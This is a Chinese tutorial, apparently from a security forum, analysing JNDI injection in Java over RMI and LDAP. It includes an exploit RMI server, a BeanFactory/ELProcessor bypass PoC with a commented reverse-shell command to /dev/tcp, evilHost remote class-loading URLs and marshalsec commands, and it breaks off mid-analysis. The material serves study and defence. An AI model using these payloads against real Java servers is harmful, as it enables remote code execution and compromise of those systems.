## JNDI 注入分析

- - -

## [什么是 JNDI](#toc_jndi)

`JNDI(Java Naming and Directory Interface)`是`Java`提供的`Java`命名和目录接口。通过调用`JNDI`的`API`可以定位资源和其他程序对象。  
`JNDI`是`Java EE`的重要部分，`JNDI`可访问的现有的目录及服务有：`JDBC`、`LDAP`、`RMI`、`DNS`、`NIS`、`CORBA`。

### [Naming Service 命名服务](#toc_naming-service)

命名服务将名称和对象进行关联，提供通过名称找到对象的操作，例如：`DNS`系统将计算机名和`IP`地址进行关联、文件系统将文件名和文件句柄进行关联等等。  
在一些命名服务系统中，系统并不是直接将对象存储在系统中，而是保持对象的引用。引用包含了如何访问实际对象的信息。  
其中另一个值得一提的名称服务为 `LDAP`，全称为 `Lightweight Directory Access Protocol`，即轻量级目录访问协议，其名称也是从右到左进行逐级定义，各级以逗号分隔，每级为一个 `name`/`value` 对，以等号分隔。比如一个 `LDAP` 名称如下：

```bash
cn=John, o=Sun, c=US
```

即表示在 `c=US` 的子域中查找 `o=Sun` 的子域，再在结果中查找 `cn=John` 的对象。关于 `LDAP` 的详细介绍见后文。

在名称系统中，有几个重要的概念。  
`Bindings`: 表示一个名称和对应对象的绑定关系，比如在文件系统中文件名绑定到对应的文件，在 `DNS` 中域名绑定到对应的 `IP`。  
`Context`: 上下文，一个上下文中对应着一组名称到对象的绑定关系，我们可以在指定上下文中查找名称对应的对象。比如在文件系统中，一个目录就是一个上下文，可以在该目录中查找文件，其中子目录也可以称为子上下文 (`subcontext`)。  
`References`: 在一个实际的名称服务中，有些对象可能无法直接存储在系统内，这时它们便以引用的形式进行存储，可以理解为 `C/C++` 中的指针。引用中包含了获取实际对象所需的信息，甚至对象的实际状态。比如文件系统中实际根据名称打开的文件是一个整数 `fd` (`file descriptor`)，这就是一个引用，内核根据这个引用值去找到磁盘中的对应位置和读写偏移。

### [Directory Service 目录服务](#toc_directory-service)

目录服务是命名服务的扩展，除了提供名称和对象的关联，还允许对象具有属性。目录服务中的对象称之为目录对象。目录服务提供创建、添加、删除目录对象以及修改目录对象属性等操作。由此，我们不仅可以根据名称去查找 (`lookup`) 对象 (并获取其对应属性)，还可以根据属性值去搜索 (`search`) 对象。  
一些典型的目录服务有： 
`NIS`: `Network Information Service，Solaris` 系统中用于查找系统相关信息的目录服务；  
`Active Directory`: 为 `Windows` 域网络设计，包含多个目录服务，比如域名服务、证书服务等；  
其他基于 `LDAP` 协议实现的目录服务；  
总而言之，目录服务也是一种特殊的名称服务，关键区别是在目录服务中通常使用搜索 (`search`) 操作去定位对象，而不是简单的根据名称查找 (`lookup`) 去定位。  
在下文中如果没有特殊指明，都会将名称服务与目录服务统称为目录服务。

### [API](#toc_api)

根据上面的介绍，我们知道目录服务是中心化网络应用的一个重要组件。使用目录服务可以简化应用中服务管理验证逻辑，集中存储共享信息。在 `Java` 应用中除了以常规方式使用名称服务 (比如使用 `DNS` 解析域名)，另一个常见的用法是使用目录服务作为对象存储的系统，即用目录服务来存储和获取 `Java` 对象。  
比如对于打印机服务，我们可以通过在目录服务中查找打印机，并获得一个打印机对象，基于这个 `Java` 对象进行实际的打印操作。  
为此，就有了 `JNDI`，即 `Java` 的名称与目录服务接口，应用通过该接口与具体的目录服务进行交互。从设计上，`JNDI` 独立于具体的目录服务实现，因此可以针对不同的目录服务提供统一的操作接口。  
`JNDI` 架构上主要包含两个部分，即 `Java` 的应用层接口和 `SPI`，如下图所示：

[](https://storage.tttang.com/media/attachment/2022/05/25/a54a33c8-705e-4d44-9489-e46309db60da.png)

`SPI` 全称为 `Service Provider Interface`，即服务供应接口，主要作用是为底层的具体目录服务提供统一接口，从而实现目录服务的可插拔式安装。在 `JDK` 中包含了下述内置的目录服务： 
`RMI`: `Java Remote Method Invocation`，`Java` 远程方法调用；  
`LDAP`: 轻量级目录访问协议；  
`CORBA`: `Common Object Request Broker Architecture`，通用对象请求代理架构，用于 `COS` 名称服务 (`Common Object Services`)；  
除此之外，用户还可以在 `Java` 官网下载其他目录服务实现。由于 `SPI` 的统一接口，厂商也可以提供自己的私有目录服务实现，用户可无需重复修改代码。  
为了更好理解 `JNDI`，我们需要了解其背后的服务提供者 (`Service Provider`)，这些目录服务本身和 `JNDI` 有没直接耦合性，但基于 `SPI` 接口和 `JNDI` 构建起了重要的联系。

## [JNDI 的结构](#toc_jndi_1)

从上面介绍的三个 `Service Provider` 我们可以看到，除了 `RMI` 是 `Java` 特有的远程调用框架，其他两个都是通用的服务和标准，可以脱离 `Java` 独立使用。`JNDI` 就是在这个基础上提供了统一的接口，来方便调用各种服务。  
在`Java JDK`里面提供了 5 个包，提供给`JNDI`的功能实现，分别是：

```bash
javax.naming：主要用于命名操作，包含了访问目录服务所需的类和接口，比如 Context、Bindings、References、lookup 等。
javax.naming.directory：主要用于目录操作，它定义了 DirContext 接口和 InitialDir- Context 类；
javax.naming.event：在命名目录服务器中请求事件通知；
javax.naming.ldap：提供 LDAP 支持；
javax.naming.spi：允许动态插入不同实现，为不同命名目录服务供应商的开发人员提供开发和实现的途径，以便应用程序通过 JNDI 可以访问相关服务。
```

### [类介绍](#toc_)

#### [InitialContext 类](#toc_initialcontext)

构造方法：

```bash
//构建一个初始上下文。
InitialContext() 
//构造一个初始上下文，并选择不初始化它。
InitialContext(boolean lazy) 
//使用提供的环境构建初始上下文。
InitialContext(Hashtable<?,?> environment) 
```

常用方法：

```bash
//将名称绑定到对象。 
bind(Name name, Object obj) 
//枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名。
list(String name) 
//检索命名对象。
lookup(String name)  
//将名称绑定到对象，覆盖任何现有绑定。
rebind(String name, Object obj) 
//取消绑定命名对象。
unbind(String name)  
```

示例：

```bash
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class jndi {
    public static void main(String[] args) throws NamingException {
        String uri = "rmi://127.0.0.1:1099/work";
        //在这 JDK 里面给的解释是构建初始上下文，其实通俗点来讲就是获取初始目录环境。
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

#### [Reference 类](#toc_reference)

该类也是在`javax.naming`的一个类，该类表示对在命名/目录系统外部找到的对象的引用。提供了`JNDI`中类的引用功能。

构造方法：

```bash
//为类名为“className”的对象构造一个新的引用。
Reference(String className) 
//为类名为“className”的对象和地址构造一个新引用。 
Reference(String className, RefAddr addr) 
//为类名为“className”的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。 
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
//为类名为“className”的对象以及对象工厂的类名和位置构造一个新引用。  
Reference(String className, String factory, String factoryLocation)

/*
参数：
className 远程加载时所使用的类名
factory  加载的 class 中需要实例化类的名称
factoryLocation  提供 classes 数据的地址可以是 file/ftp/http 协议
*/
```

常用方法：

```bash
//将地址添加到索引 posn 的地址列表中。
void add(int posn, RefAddr addr) 
//将地址添加到地址列表的末尾。 
void add(RefAddr addr) 
//从此引用中删除所有地址。  
void clear() 
//检索索引 posn 上的地址。 
RefAddr get(int posn) 
//检索地址类型为“addrType”的第一个地址。  
RefAddr get(String addrType) 
//检索本参考文献中地址的列举。 
Enumeration<RefAddr> getAll() 
//检索引用引用的对象的类名。 
String getClassName() 
//检索此引用引用的对象的工厂位置。  
String getFactoryClassLocation() 
//检索此引用引用对象的工厂的类名。  
String getFactoryClassName() 
//从地址列表中删除索引 posn 上的地址。    
Object remove(int posn) 
//检索此引用中的地址数。 
int size() 
//生成此引用的字符串表示形式。
String toString() 
```

示例：

```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080"; 
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("aa",referenceWrapper);


    }
}
```

这里可以看到调用完`Reference`后又调用了`ReferenceWrapper`将前面的`Reference`对象给传进去，这是为什么呢？  
其实查看`Reference`就可以知道原因，查看到`Reference`,并没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类，前面讲`RMI`的时候说过，将类注册到`Registry`需要实现`Remote`和继承`UnicastRemoteObject`类。这里并没有看到相关的代码，所以这里还需要调用`ReferenceWrapper`将他给封装一下。

## [JNDI References 注入](#toc_jndi-references)

为了在命名服务或目录服务中绑定`Java`对象，可以使用`Java`序列化来传输对象，但有时候不太合适，比如`Java`对象较大的情况。因此 JNDI 定义了命名引用 (`Naming References`)，后面直接简称引用 (`References`)。这样对象就可以通过绑定一个可以被命名管理器 (`Naming Manager`) 解码并解析为原始对象的引用，间接地存储在命名或目录服务中。  
引用由`Reference`类来表示，它由地址 (`RefAddress`) 的有序列表和所引用对象的信息组成。而每个地址包含了如何构造对应的对象的信息，包括引用对象的`Java`类名，以及用于创建对象的`ObjectFactory`类的名称和位置。  
`Reference`可以使用`ObjectFactory`来构造对象。当使用`lookup()`方法查找对象时，`Reference`将使用提供的`ObjectFactory`类的加载地址来加载`ObjectFactory`类，`ObjectFactory`类将构造出需要的对象。

所谓的 `JNDI` 注入就是控制 `lookup` 函数的参数，这样来使客户端访问恶意的 `RMI` 或者 `LDAP` 服务来加载恶意的对象，从而执行代码，完成利用  
在 `JNDI` 服务中，通过绑定一个外部远程对象让客户端请求，从而使客户端恶意代码执行的方式就是利用 `Reference` 类实现的。`Reference` 类表示对存在于命名/目录系统以外的对象的引用。  
具体则是指如果远程获取 `RMI` 服务器上的对象为 `Reference` 类或者其子类时，则可以从其他服务器上加载 `class` 字节码文件来实例化  
`Reference` 类常用属性：

```bash
className 远程加载时所使用的类名
classFactory 加载的 class 中需要实例化类的名称
classFactoryLocation 提供 classes 数据的地址可以是 file/ftp/http 等协议
```

比如：

```bash
Reference reference = new Reference("Exploit","Exploit","http://evilHost/" );           
registry.bind("Exploit", new ReferenceWrapper(reference));
```

此时，假设使用 `rmi` 协议，客户端通过 `lookup` 函数请求上面 `bind` 设置的 `Exploit`

```bash
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

因为绑定的是 `Reference` 对象，客户端在本地 `CLASSPATH` 查找 `Exploit` 类，如果没有则根据设定的 `Reference` 属性，到`URL`： [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例，构造方法中的恶意代码就会被执行

## [JNDI\_RMI](#toc_jndi_rmi)

本节主要分析 JNDI 在使用 RMI 协议时面临的攻击面。

### [低版本 JDK 运行](#toc_jdk)

服务端代码：

```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ServerExp {

    public static void main(String args[]) {

        try {
            Registry registry = LocateRegistry.createRegistry(1099);

            String factoryUrl = "http://localhost:1098/";
            Reference reference = new Reference("EvilClass","EvilClass", factoryUrl);
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("Foo", wrapper);

            System.err.println("Server ready, factoryUrl:" + factoryUrl);
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

客户端代码：

```bash
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.directory.*;
import java.util.Hashtable;

public class JNDILookup {
    public static void main(String[] args) {
        try {
            Object ret = new InitialContext().lookup("rmi://127.0.0.1:1099/Foo");
            System.out.println("ret: " + ret);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

恶意类：

```bash
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilClass implements ObjectFactory {
    static void log(String key) {
        try {
            System.out.println("EvilClass: " + key);
        } catch (Exception e) {
            // do nothing
        }
    }

    {
        EvilClass.log("IIB block");
    }

    static {
        EvilClass.log("static block");
    }

    public EvilClass() {
        EvilClass.log("constructor");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        EvilClass.log("getObjectInstance");
        return null;
    }
}
```

首先将恶意类编译为`Class`文件，放到`http`目录下。  
[](https://storage.tttang.com/media/attachment/2022/05/25/8c674165-1a0f-4b52-b445-e2b6c161e503.png)  
启动服务端  
[](https://storage.tttang.com/media/attachment/2022/05/25/0ab16927-cd47-4072-8a83-63b27d82b8b5.png)  
启动客户端  
[](https://storage.tttang.com/media/attachment/2022/05/25/c64bbc2d-b37e-4848-97c0-3367feacf24d.png)  
可以清晰的看到在客户端中远程的类代码按照顺序被执行。

```bash
static 在类加载的时候执行
代码块和无参构造方法在 clas.newInstance() 时执行
```

### [高版本 JDK 运行](#toc_jdk_1)

`JDK 6u132`、`7u122`、`8u113` 开始 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值为`false`，运行时需加入参数 `-Dcom.sun.jndi.rmi.object.trustURLCodebase=true` 。因为如果 `JDK` 高于这些版本，默认是不信任远程代码的，因此也就无法加载远程 `RMI` 代码。  
不加参数，抛出异常：  
[](https://storage.tttang.com/media/attachment/2022/05/25/60282a54-d6c6-4de3-9f12-13905de9515f.png)

加入参数，正常运行：

[](https://storage.tttang.com/media/attachment/2022/05/25/84f40072-1e3b-40f5-a297-e0a03835b7ed.png)

#### [原因分析](#toc__1)

上面高版本 `JDK` 中无法加载远程代码的异常出现在 `com.sun.jndi.rmi.registry.RegistryContext#decodeObject` 中  
[](https://storage.tttang.com/media/attachment/2022/05/25/9c1c98e2-c3cd-48dd-bf2b-812e1e3176e8.png)  
其中 `getFactoryClassLocation()`方法是获取`classFactoryLocation`地址，可以看到，在 `ref != null && ref.getFactoryClassLocation() != null` 的情况下，会对 `trustURLCodebase` 进行取反，由于在 `JDK 6u132`、`7u122`、`8u113` 版本及以后， `com.sun.jndi.rmi.object.trustURLCodebase` 默认为 `false` ，所以会进入 `if` 语句，抛出异常。

#### [绕过方式](#toc__2)

如果要解码的对象 `r` 是远程引用，就需要先解引用然后再调用 `NamingManager.getObjectInstance`，其中会实例化对应的 `ObjectFactory` 类并调用其 `getObjectInstance` 方法，这也符合我们前面打印的 `EvilClass` 的执行顺序。

因此为了绕过这里 `ConfigurationException` 的限制，我们有三种方法：\* 令 `ref` 为空，或者 \* 令 `ref.getFactoryClassLocation()` 为空，或者 \* 令 `trustURLCodebase` 为 `true`

方法一：令 `ref` 为空，从语义上看需要 `obj` 既不是 `Reference` 也不是 `Referenceable`。即，不能是对象引用，只能是原始对象，这时候客户端直接实例化本地对象，远程 `RMI` 没有操作的空间，因此这种情况不太好利用；  
方法二：令 `ref.getFactoryClassLocation()` 返回空。即，让 `ref` 对象的 `classFactoryLocation` 属性为空，这个属性表示引用所指向对象的对应 `factory` 名称，对于远程代码加载而言是 `codebase`，即远程代码的 `URL` 地址 (可以是多个地址，以空格分隔)，这正是我们上文针对低版本的利用方法；如果对应的 `factory` 是本地代码，则该值为空，这是绕过高版本 `JDK` 限制的关键；  
方法三：我们已经在上节用过，即在命令行指定 `com.sun.jndi.rmi.object.trustURLCodebase` 参数。

可以看一下`getFactoryClassLocation()`方法，以及返回值的赋值情况。  
[](https://storage.tttang.com/media/attachment/2022/05/25/1caa0acf-b89d-42f7-b536-b2c0a0804346.png)  
[](https://storage.tttang.com/media/attachment/2022/05/25/67b9c716-ba9a-48e2-b58e-45543f90a83b.png)

要满足方法二情况，我们只需要在远程 `RMI` 服务器返回的 `Reference` 对象中不指定 `Factory` 的 `codebase`。接着看一下 `javax.naming.spi.NamingManager` 的解析过程

```bash
public static Object getObjectInstance(Object refInfo, Name name, Context nameCtx,
                      Hashtable<?,?> environment)
    throws Exception
{
    ObjectFactory factory;

    // Use builder if installed
    ObjectFactoryBuilder builder = getObjectFactoryBuilder();
    if (builder != null) {
        // builder must return non-null factory
        factory = builder.createObjectFactory(refInfo, environment);
        return factory.getObjectInstance(refInfo, name, nameCtx,
            environment);
    }

    // Use reference if possible
    Reference ref = null;
    if (refInfo instanceof Reference) {
        ref = (Reference) refInfo;
    } else if (refInfo instanceof Referenceable) {
        ref = ((Referenceable)(refInfo)).getReference();
    }

    Object answer;

    if (ref != null) {
        String f = ref.getFactoryClassName();
        if (f != null) {
            // if reference identifies a factory, use exclusively
            factory = getObjectFactoryFromReference(ref, f);
            if (factory != null) {
                return factory.getObjectInstance(ref, name, nameCtx,
                                                 environment);
            }
            // No factory found, so return original refInfo.
            // Will reach this point if factory class is not in
            // class path and reference does not contain a URL for it
            return refInfo;
        } else {
            // if reference has no factory, check for addresses
            // containing URLs
            answer = processURLAddrs(ref, name, nameCtx, environment);
            if (answer != null) {
                return answer;
            }
        }
    }
    // try using any specified factories
    answer =
        createObjectFromFactories(refInfo, name, nameCtx, environment);
    return (answer != null) ? answer : refInfo;
}
```

可以看到，在处理 `Reference` 对象时，会先调用 `ref.getFactoryClassName()` 获取对应工厂类的名称，也就是会先从本地的`CLASSPATH`中寻找该类。如果不为空则直接实例化工厂类，并通过工厂类去实例化一个对象并返回；如果为空则通过网络去请求，即前文中的情况。

之后会执行静态代码块、代码块、无参构造函数和`getObjectInstance`方法。那么只需要在攻击者本地`CLASSPATH`找到这个`Reference Factory`类并且在这四个地方其中一块能执行`payload`就可以了。但`getObjectInstance`方法需要你的类实现`javax.naming.spi.ObjectFactory`接口  
因此，我们实际上可以指定一个存在于目标 `classpath` 中的工厂类名称，交由这个工厂类去实例化实际的目标类 (即引用所指向的类)，从而间接实现一定的代码控制。  
整个利用过程的主要调用栈如下：

```bash
InitialContext#lookup()
  RegistryContext#lookup()
    RegistryContext#decodeObject()
      NamingManager#getObjectInstance()
          objectfactory = NamingManager#getObjectFactoryFromReference()
                  Class#newInstance()  //-->恶意代码被执行
     或：objectfactory#getObjectInstance()  //-->恶意代码被执行
```

总结一下  
满足要求的工厂类条件： \* 存在于目标本地的 `CLASSPATH` 中 \* 实现 `javax.naming.spi.ObjectFactory` 接口 \* 至少存在一个 `getObjectInstance()` 方法

而存在于 `Tomcat` 依赖包中的 `org.apache.naming.factory.BeanFactory` 就是个不错的选择  
`org.apache.naming.factory.BeanFactory` ，这个类在 `Tomcat` 中，很多 `web` 应用都会包含，它的关键代码：

```bash
public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                Hashtable<?,?> environment)
    throws NamingException {

    Reference ref = (Reference) obj;
    String beanClassName = ref.getClassName();
    ClassLoader tcl = Thread.currentThread().getContextClassLoader();
    // 1. 反射获取类对象
    if (tcl != null) {
        beanClass = tcl.loadClass(beanClassName);
    } else {
        beanClass = Class.forName(beanClassName);
    }
    // 2. 初始化类实例
    Object bean = beanClass.getConstructor().newInstance();

    // 3. 根据 Reference 的属性查找 setter 方法的别名
    RefAddr ra = ref.get("forceString");
    String value = (String)ra.getContent();

    // 4. 循环解析别名并保存到字典中
    for (String param: value.split(",")) {
        param = param.trim();
        index = param.indexOf('=');
        if (index >= 0) {
            setterName = param.substring(index + 1).trim();
            param = param.substring(0, index).trim();
        } else {
            setterName = "set" +
                param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
                param.substring(1);
        }
        forced.put(param, beanClass.getMethod(setterName, paramTypes));
    }

    // 5. 解析所有属性，并根据别名去调用 setter 方法
    Enumeration<RefAddr> e = ref.getAll();
    while (e.hasMoreElements()) {
        ra = e.nextElement();
        String propName = ra.getType();
        String value = (String)ra.getContent();
        Object[] valueArray = new Object[1];
        Method method = forced.get(propName);
        if (method != null) {
            valueArray[0] = value;
            method.invoke(bean, valueArray);
        }
        // ...
    }
}
```

上面注释标注了关键的部分，我们可以通过在返回给客户端的 `Reference` 对象的 `forceString` 字段指定 `setter` 方法的别名，并在后续初始化过程中进行调用。  
`forceString` 的格式为 `a=foo,bar`，以逗号分隔每个需要设置的属性，如果包含等号，则对应的 `setter` 方法为等号后的值 `foo`，如果不包含等号，则 `setter` 方法为默认值 `setBar`。  
在后续调用时，调用 `setter` 方法使用单个参数，且参数值为对应属性对象 `RefAddr` 的值 (`getContent`)。因此，实际上我们可以调用任意指定类的任意方法，并指定单个可控的参数。

因为使用 `newInstance`创建实例（也就是后面`Poc`中的`ELProcessor`），所以只能调用无参构造，这就要求目标 `class` 得有无参构造方法，上面 `forceString` 可以给属性强制指定一个 `setter` 方法，参数为一个 `String` 类型  
于是找到 `javax.el.ELProcessor` 作为目标 `class`，利用 `el` 表达式执行命令，工具 [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass) 中的 `EvilRMIServer.java` 部分代码如下

[](https://storage.tttang.com/media/attachment/2022/05/25/5b518569-640f-4972-bb40-3e6395f31974.png)

所以整个绕过流程就是：  
为了绕过`ConfigurationException`，需要满足`ref.getFactoryClassLocation()` 为空，只需要在远程 `RMI` 服务器返回的 `Reference` 对象中不指定 `Factory` 的 `codebase`  
来到`NamingManager`，需要在攻击者本地`CLASSPATH`找到这个`Reference Factory`类并且在其中一块代码能执行`payload`，找到了`BeanFactory`  
`BeanFactor`使用`newInstance`创建实例，所以只能调用无参构造，这就要求目标 `class` 得有无参构造方法且有办法执行相关命令，于是找到`ELProcessor`和`GroovyShell`  
总结起来就是绕过了`ConfigurationException`，进入`NamingManager`，使用`BeanFactor`创建`ELProcessor`/`GroovyShell`无参实例，然后`BeanFactor`根据别名去调用方法（执行`ELProcessor`中的`eval`方法）

从代码中能看出该工具还有另一个利用方法，`groovy.lang.GroovyShell`，原理也是类似的  
[](https://storage.tttang.com/media/attachment/2022/05/25/93428660-6110-414b-9e97-455163b504fb.png)

传入的 `Reference`为 `ResourceRef` 类，后面通过反射的方式实例化 `Reference` 所指向的任意 `Bean Class`，调用 `setter` 方法为所有的属性赋值，该 `Bean Class` 的类名、属性、属性值，全都来自于 `Reference` 对象。`ResourceRef`构造器的第七个参数`factoryLocation`是远程加载`factory`的地址，比如是一个`url`,这里将其设置为`null`,达到绕过`ConfigurationException`限制。

#### [poc](#toc_poc)

```bash
public class bypass {
    public static void main(String args[]) {
        try {
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            // ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['bash','-c','bash -i >& /dev/tcp/ip/port 0>&1']).start()\")"));
           ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"open -a Calculator.app\")"));

            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            registry.bind("calc", referenceWrapper);
            System.err.println("Server ready");
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

`org.apache.naming.ResourceRef` 在 `tomcat` 中表示某个资源的引用，其构造函数参数如下：

```bash
/**
    * Resource Reference.
    *
    * @param resourceClass Resource class
    * @param description Description of the resource
    * @param scope Resource scope
    * @param auth Resource authentication
    * @param singleton Is this resource a singleton (every lookup should return
    *                  the same instance rather than a new instance)?
    * @param factory The possibly null class name of the object's factory.
    * @param factoryLocation The possibly null location from which to load the
    *                        factory (e.g. URL)
    */
public ResourceRef(String resourceClass, String description,
                    String scope, String auth, boolean singleton,
                    String factory, String factoryLocation) {
                        //...
                    }
```

其中我们指定了资源的实际类为 `javax.el.ELProcessor`，工厂类为 `apache.naming.factory.BeanFactory`。`x=eval` 令上述代码实际执行的是 `ELProcessor.eval` 函数，其第一个参数是属性 `x` 的值，这里指定的是弹计算器。

目标环境：

```bash
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-el</artifactId>
            <version>8.5.15</version>
        </dependency>
```

因为要使用 `javax.el.ELProcessor`，所以需要 `Tomcat 8+`或`SpringBoot 1.2.x+`

`Server`端启动上述`Poc`,`Client`端正常请求，弹出计算器。

[](https://storage.tttang.com/media/attachment/2022/05/25/ebb5bb40-3816-4a30-817c-096744c2ddb1.png)

#### [源码调试](#toc__3)

`debug Client`端，在`lookup`处下端点；

[](https://storage.tttang.com/media/attachment/2022/05/25/3baa4b35-432c-4b99-aa36-88b88a4a5cd9.png)  
经过如下调用栈，进入`RegistryContext#decodeObject`

[](https://storage.tttang.com/media/attachment/2022/05/25/4db36daf-24af-4caa-b4cf-ed0a18b9a6c9.png)  
判断上文中的三个条件，绕过后进入`NamingManager.getObjectInstance`

[](https://storage.tttang.com/media/attachment/2022/05/25/efcb651c-8ffe-4e46-8361-9f8d0cea7f9b.png)  
经由`NamingManager.getObjectInstance`进入`factory.getObjectInstance`

[](https://storage.tttang.com/media/attachment/2022/05/25/79cdaf60-474a-4b8d-83b7-d38d2e715dda.png)  
进入`BeanFactory#getObjectInstance`后，首先会判断对象是否是`ResourceRef`类，接下来通过反射实例化了`beanClass`

[](https://storage.tttang.com/media/attachment/2022/05/25/f96936c0-b798-45d4-b9f2-bc0038f25f95.png)  
取出了键值为`forceString`的值，以`,`分割，拆分`=`键值对，存入`hashMap`对象中，`=`右边为调用的方法，`=`左边则是会通过作为`hashmap`的`key`

[](https://storage.tttang.com/media/attachment/2022/05/25/2e3378da-dd0e-4a83-8807-73595798cd30.png)  
此时各个变量值为

[](https://storage.tttang.com/media/attachment/2022/05/25/28d44531-726a-4918-8561-b9eba49d2ee9.png)  
最后通过反射执行我们指定的之前构造的方法

可以看到该方法中有反射的调用`method.invoke(bean, valueArray);`并且反射所有参数均来自`Reference`，反射的类来自`Object bean = beanClass.newInstance();`，这里是`ELProcessor` ，后面就是分析`ELProcessor.eval`达到了命令执行。

[](https://storage.tttang.com/media/attachment/2022/05/25/c0a83122-774b-4093-ac75-b5432c965172.png)  
看一下调用栈

[](https://storage.tttang.com/media/attachment/2022/05/25/edb1e94a-ec06-4978-8f5f-2fd2c08abe7c.png)

#### [绕过总结](#toc__4)

`Server:`  
使用`ResourceRef`构造的`beanClass`，这种利用方式构造的`beanClass`是`javax.el.ELProcessor`。  
`ELProcessor`中有个`eval(String)`方法可以执行`EL`表达式，`javax.el.ELProcessor`是`Tomcat8`中的库，所以仅限`Tomcat8`及更高版本环境下可以通过该库进行攻击。  
[](https://storage.tttang.com/media/attachment/2022/05/25/f3079e4c-4649-4e02-969a-fe2143c6d8d7.png)  
`Client:`  
远程 `RMI` 服务器返回的 `Reference` 对象中不指定 `Factory` 的 `codebase`，且使用本地的`factory`，如`BeanFactory`，以此绕过 `trustURLCodebase` 报错，执行 `NamingManager` ；  
在`factory`的静态代码块、代码块、构造函数和`getObjectInstance`方法任意一个里面构造`payload`，即可在 `NamingManager` 中执行。

#### [工具](#toc__5)

-   使用 [https://github.com/welk1n/JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass)，放在服务器上启动一个恶意 `RMI Server`
-   [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

## [JNDI\_LDAP](#toc_jndi_ldap)

`LDAP` 服务作为一个树形数据库，可以通过一些特殊的属性来实现 `Java` 对象的存储，此外，还有一些其他实现 `Java` 对象存储的方法：\* 使用 `Java` 序列化进行存储； \* 使用 `JNDI` 的引用 (Reference) 进行存储； \* ……

使用这些方法存储在 `LDAP` 目录中的 `Java` 对象一旦被客户端解析 (反序列化)，就可能会引起远程代码执行。

### [低版本 JDK 运行](#toc_jdk_2)

我们可以通过`LDAP`服务来绕过`URLCodebase`实现远程加载，`LDAP`服务也能返回`JNDI Reference`对象，利用过程与`jndi` + `RMI Reference`基本一致，不同的是，`LDAP`服务中`lookup`方法中指定的远程地址使用的是`LDAP`协议，由攻击者控制`LDAP`服务端返回一个恶意`jndi Reference`对象，并且`LDAP`服务的`Reference`远程加载`Factory`类并不是使用`RMI Class Loader`机制，因此不受`trustURLCodebase`限制。  
利用之前，需要在这个网站下载`LDAP`服务`unboundid-ldapsdk-3.1.1.jar`  
[https://mvnrepository.com/artifact/com.unboundid/unboundid-ldapsdk/3.1.1](https://mvnrepository.com/artifact/com.unboundid/unboundid-ldapsdk/3.1.1)  
服务端代码使用的是`marshalsec`项目中的代码  
引入依赖

```bash
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
```

[](https://storage.tttang.com/media/attachment/2022/05/25/9c33caac-baca-4c40-a6f6-cbb5137ec1c6.png)

#### [工具](#toc__6)

也可以使用`marshalsec`开启`LDAP`服务

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/\#EvilClass
```

[](https://storage.tttang.com/media/attachment/2022/05/25/4d0c66d6-eb8d-409b-89c3-ae986aa12f97.png)  
使用高版本后，返回`null`  
[](https://storage.tttang.com/media/attachment/2022/05/25/fe55d8c3-fb54-448b-adcd-e609768ac3c7.png)

#### [流程分析](#toc__7)

`JNDI`发起`ldap`的`lookup`后，将有如下的调用流程，这里我们直接来关注，获得远程`LDAP Server`的`Entry`之后，`Client`这边是怎么做处理的  
[](https://storage.tttang.com/media/attachment/2022/05/25/15843eb2-81c7-4788-a290-aea991a962c5.png)

`LADP`服务利用流程分析，`LADP`服务前面的调用流程和`jndi`是基本一样，从`Obj`类的`decodeObject`方法这里就有些不太一样了，`decodeObject`方法内部调用了`decodeReference`方法  
跟进`com.sun.jndi.ldap.Obj.java#decodeObject`，按照该函数的注释来看，其主要功能是解码从`LDAP Server`来的对象，该对象可能是序列化的对象，也可能是一个`Reference`对象。关于序列化对象的处理，我们看后面一节。这里摘取了`Reference`的处理方式：

```bash
static Object decodeObject(Attributes var0) throws NamingException {
